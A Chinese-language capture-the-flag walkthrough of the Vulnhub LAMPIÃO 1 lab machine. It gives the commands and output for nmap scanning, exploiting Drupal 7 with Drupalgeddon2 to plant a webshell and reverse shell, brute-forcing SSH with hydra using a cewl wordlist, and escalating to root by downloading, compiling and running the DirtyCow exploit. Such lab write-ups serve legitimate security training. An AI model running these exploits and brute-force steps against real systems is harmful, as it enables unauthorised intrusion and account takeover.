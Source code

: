 ```yaml
---
layer: article
title: Vulnhub	249 LAMPIÃO 1
tags: pentest vulnhub Walkthrough
---
```


考点：drupal,hydra,暴力破解,dirtyc0w

靶机链接：<https://www.vulnhub.com/entry/lampiao-1,249/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| LAMPIÃO    | 10.0.2.9  |

## 初步打点

### 端口扫描

```bash
$ sudo arp-scan  -l           
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.9        08:00:27:58:66:90       PCS Systemtechnik GmbH
$ export tip=10.0.2.9         
$ sudo nmap -v -A -p- $tip    
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### WEB测试

看来要在80和1898端口突破

80扫一下就挂了

1898端口打开是个Web应用，页脚显示drupal

使用`whatweb`探测一下drupa版本

```bash
$ whatweb  http://10.0.2.9:1898
http://10.0.2.9:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

```

大概率是Drupal 7

### 漏洞发现

试试[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

运行报错
```ruby
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
```

google查询安装`highline`即可

```bash
$ sudo gem install highline
```

运行后显示`drupalgeddon2.rb` 已写入webshell

![1](https://static.iihack.com/vulnhub/249/1.PNG)



## 获得权限

### 靶机测试

#### 思路一 Drupalgeddon2

通过[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)获得的webshell执行`id`

![2](https://static.iihack.com/vulnhub/249/2.PNG)

下载php-reverse-shell.php 访问，获得反弹shell

![3](https://static.iihack.com/vulnhub/249/3.PNG)

#### 思路二 暴力破解

##### 用户名

查看两个内容页面，对应用户名是 `tiago`和`Eder`作为用户名字典

```bash
$ cat user
tiago
eder
```

##### 密码

使用cewl获取个字典文件作为密码字典

```bash
$ cewl -w 1.txt http://10.0.2.9:1898/
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                
```

##### hydra

使用[hydra](https://www.iihack.com/pages/tools/hydra.html)爆破ssh
```bash
$ hydra -L user -P 1.txt 10.0.2.9 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[22][ssh] host: 10.0.2.9   login: tiago   password: Virgulino
```

获得tiago的密码

![4](https://static.iihack.com/vulnhub/249/4.PNG)

ssh登陆成功

![5](https://static.iihack.com/vulnhub/249/5.PNG)

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍，打算使用脏牛提权，运行成功后管理员密码被修改为`dirtyCowFun`

```bash
$ wget https://www.exploit-db.com/download/40847 -O 40847.c
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.c -lutil
$ ./dcow
```

![6](https://static.iihack.com/vulnhub/249/6.PNG)
